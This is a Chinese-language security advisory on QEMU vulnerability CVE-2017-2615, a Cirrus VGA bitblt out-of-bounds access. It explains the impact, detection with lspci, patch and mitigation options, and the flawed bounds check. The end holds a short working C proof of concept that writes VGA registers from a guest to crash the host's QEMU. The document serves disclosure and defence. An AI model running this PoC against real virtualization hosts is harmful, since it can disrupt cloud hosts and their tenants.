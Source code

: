 
# 【漏洞预警】比“毒液”更恐怖！QEMU再曝高危漏洞(更新PoC)


                                阅读量   
                                **134951**
                            
                        |
                        
                                                                                    



[![](./img/85535/t015a656de8c0cb6ee6.jpg)](./img/85535/t015a656de8c0cb6ee6.jpg)

**漏洞描述**



近期QEMU官方修复了由360GearTeam研究员李强报告的一个严重漏洞CVE-2017-2615，这是QEMU的VGA设备Cirrus CLGD 54xx VGA中存在一个内存越界访问读写漏洞，可以造成宿主机层面的任意代码执行，Xen官方对此漏洞编号为XSA-208。

QEMU是全球流行的开源虚拟化软件。黑客攻击者一旦利用QEMU漏洞控制宿主机，除了利用宿主机强大的性能，可以进行比特币挖矿、密码暴力破解，还可窃取宿主机所有的虚拟机数据甚至进一步的云平台内部横向攻击，危害非常严重。

由于历史原因及软件兼容性的考虑，很长一段时间QEMU的默认VGA设备是Cirrus CLGD 54xx VGA。使用QEMU作为用户态模拟的虚拟化软件如KVM，Xen(HVM模式)的VGA也默认是Cirrus，所以该漏洞会影响到使用KVM及Xen的云平台。

经过实际的版本比对分析，国内主流的公有云平台受到此漏洞影响，应尽快执行升级修复，目前已经有相关受影响公有云平台启动了修复计划。

<br>

[![](./img/85535/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01f55db29d646f3f3b.png)

<br>

**漏洞检测**

由于该漏洞存在于cirrus vga的模拟中，可以在guest中直接执行lspci（相关的软件包是pciutils）查看vga是否是cirrus，如果是则存在该漏洞，如下图：

[![](./img/85535/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01ee51a3105df68c05.png)

<br>

**修复方案**

经过360GearTeam安全团队的分析，建议参考以下任一策略进行修复。

1.	自行更新QEMU版本或更新对补丁进行修复

补丁链接： [https://lists.gnu.org/archive/html/qemu-devel/2017-02/msg00015.html](https://lists.gnu.org/archive/html/qemu-devel/2017-02/msg00015.html) 

[![](./img/85535/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01d541a6362d85dacc.png)

2.	修改启动虚拟机相关选项，不使用cirrus vga，改用std vga或者virtio vga

事实上，cirrus vga是90年代早期的设备，存在各种bug和安全问题。详细可以参考qemu vga的维护者Gerd Hoffmann的这篇文章qemu: using cirrus considered harmful([https://www.kraxel.org/blog/2014/10/qemu-using-cirrus-considered-harmful/](https://www.kraxel.org/blog/2014/10/qemu-using-cirrus-considered-harmful/) )。在qemu的upstream中，已经准备放弃cirrus显卡模拟。

<br>

**漏洞细节**

该漏洞存在于Cirrus VGA的bitblt操作中，bitblt是bit block transfer的缩写。在VGA模拟中，会分配一段内存vram作为VGA的显示区域，进行bitblt的拷贝操作时，会在这个内存区域中进行数据的拷贝与传输。

该漏洞即发生在向后拷贝的安全检查中，直接看补丁。

[![](./img/85535/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01eee49995cbc96820.png)

在补丁中，pitch &lt; 0时，表示是从vram的后面往前面拷贝数据，min表示的是前面的起始位置。未打补丁之前，会允许读写vram的前面部分，这可能导致读host的信息，也可能导致代码执行，造成宿主机层面代码任意执行。

运行PoC（漏洞验证代码）之后，在宿主机可以看到QEMU处于一个不正常的状态。

[![](./img/85535/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t019481ce4962103b46.png)

**更新PoC**

```
/*
 *  CVE-2017-2615 PoC 
 * 
 *  Qiang Li of the Gear Team, Qihoo 360 Inc.
 *  
 *  #gcc poc.c -o poc
 *  #./poc 
 *
*/
#include &lt;sys/io.h&gt;
#include &lt;stdio.h&gt;
 
void write_sr(int idx,int val)
{
      outb(idx,0x3c4);
      outb(val,0x3c5);
}
void write_gr(int idx,int val)
{
        outb(idx,0x3ce);
        outb(val,0x3cf);
}

int main()
{
        iopl(3);
        write_sr(0x07,1);
        write_gr(0x31,0x80);
        write_gr(0x26,0xff);
        write_gr(0x27,0xff);
        write_gr(0x24,1);
        write_gr(0x20,0xff);
        write_gr(0x21,0xff);
        write_gr(0x22,0x0);
        write_gr(0x23,0x0);
        write_gr(0x28,0);
        write_gr(0x29,0);
        write_gr(0x2a,0);
        write_gr(0x2c,0xff);
        write_gr(0x2d,0xff);
        write_gr(0x2e,0xff);
        write_gr(0x30,1);
        write_gr(0x2a,0);
        return 0;
}
```



**关于360GearTeam**

360 Gear Team是360公司一支专注于云安全与互联网核心开源组件安全研究的新锐团队，2016年获QEMU、Xen、VirtualBox、Docker等虚拟化软件致谢67次，以及OpenSSL、NTP、Firefox等重要开源项目致谢49次，成立不到一年就荣获了上百次漏洞报告致谢。团队在保卫360自身内部业务的同时，也在守护互联网的安全。
